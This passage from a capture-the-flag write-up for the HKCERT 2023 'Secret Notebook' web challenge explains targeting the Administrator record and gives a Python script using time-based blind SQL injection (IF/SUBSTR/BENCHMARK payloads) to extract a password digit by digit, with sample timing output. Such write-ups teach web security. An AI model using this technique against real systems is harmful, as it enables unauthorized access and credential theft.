 Now, you might ask how can we ensure that we're brute forcing `Administrator`'s password but not others??

Since `Administrator` user is being inserted at the first place, **the first record should be `Administrator` user.**

Armed with above information, it's time to brute force `Administrator`'s password!

**To do so, I'll write a script in Python:**
```python
#!/usr/bin/env python3
import requests
import string
from time import time

CHARACTER_SET = string.digits

def bruteForce(URL, token):
    cookie = {'token': token}
    position = 1
    while True:
        for digit in CHARACTER_SET:
            if position >= 17:
                exit(0)

            # digit 0 always get executed, don't know why
            payload = f'IF(SUBSTR(password,{position},1)={digit},BENCHMARK(100000,SHA1(1337)),0)'

            startTime = time()
            reponse = requests.get(f'{URL}{payload}', cookies=cookie)
            endTime = time()
            totalTime = endTime - startTime

            output = f'[*] Payload: {payload} | took {totalTime:.5f} seconds | digit: {digit} | position: {position}'
            print(output)

            isLastDigit = True if digit == CHARACTER_SET[-1] else False
            if isLastDigit:
                position += 1
                print('-' * len(output))
                break

if __name__ == '__main__':
    URL = 'http://chal-a.hkcert23.pwnable.hk:28107/note?noteType=public&column='
    token = 'c2l1bmFtOnBhc3N3b3Jk'

    bruteForce(URL, token)
```

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/web/Secret-Notebook)-[2023.11.13|22:15:00(HKT)]
└> python3 solve.py
[*] Payload: IF(SUBSTR(password,1,1)=0,BENCHMARK(100000,SHA1(1337)),0) | took 7.76973 seconds | digit: 0 | position: 1
[*] Payload: IF(SUBSTR(password,1,1)=1,BENCHMARK(100000,SHA1(1337)),0) | took 0.14063 seconds | digit: 1 | position: 1
[*] Payload: IF(SUBSTR(password,1,1)=2,BENCHMARK(100000,SHA1(1337)),0) | took 0.18244 seconds | digit: 2 | position: 1
[*] Payload: IF(SUBSTR(password,1,1)=3,BENCHMARK(100000,SHA1(1337)),0) | took 0.15231 seconds | digit: 3 | position: 1
[*] Payload: IF(SUBSTR(password,1,1)=4,BENCHMARK(100000,SHA1(1337)),0) | took 0.09472 seconds | digit: 4 | position: 1
[*] Payload: IF(SUBSTR(password,1,1)=5,BENCHMARK(100000,SHA1(1337)),0) | took 0.09493 seconds | digit: 5 | position: 1
```